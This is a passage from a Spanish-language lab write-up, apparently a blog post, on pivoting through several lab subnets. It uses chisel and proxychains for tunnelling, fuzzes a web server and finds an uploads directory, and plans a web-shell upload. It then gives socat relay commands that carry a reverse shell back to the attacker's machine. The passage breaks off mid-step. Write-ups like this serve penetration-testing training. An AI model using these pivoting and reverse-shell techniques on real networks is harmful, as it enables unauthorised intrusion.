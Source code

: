 Ahora en la maquina 30.30.30.3 vamos a pasarnos el chisel para poder acceder a el desde la maquina atacante con el siguiente comando

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/ae80acf4-2c03-420e-ae25-8986e0a7ce55)

Si lo hemos hecho bien en el chisel de nuestra maquina atacante aparecerá lo siguiente

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7c338c21-2bad-42b6-9e7e-7ea8dab4bbdb)

Ahora vamos añadir el sock 9999 al archivo /etc/proxychains4.conf

## Maquina 4

Vemos que tenemos el puerto 80 abierto vamos a ver que hay en el.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e943fd6a-6aa6-48f4-9818-d49ffa218f53)

Antes de hacer esto vamos a configurar el foxyproxy

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/9e831424-d06a-4ff2-8254-73ed0d168f94)

Vamos a ver que hay en el puerto 80

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f1fa551d-8850-493b-a6e0-a3adc737675b)

Vamos hacer fuzzing a ver si encontramos mas directorios

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/5850bd3c-5d9f-4267-ac44-8ae884dbc06e)

Encontramos el directorio uploads 

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8b950e5f-d84c-4f38-a618-55d883a3bfef)

Ahora vamos ha subir una web terminal 

## Pivoting 4

Ahora tenemos que preparar socat para que la reverse shell vaya desde esta IP 40.40.40.3 hasta nuestro Kali, por lo que enviaremos socat a la máquina anterior, desde la 10.10.10.0/24 a la 20.20.20.0/24 y desde la 30.30.30.0/24:

Lo hacemos de esta forma

En la primara maquina

```
socat tcp-l:4444,fork tcp:10.10.10.1:443
```

En la segunda
`
```
socat tcp-l:4444,fork tcp:20.20.20.2:4444
```

En la tercera
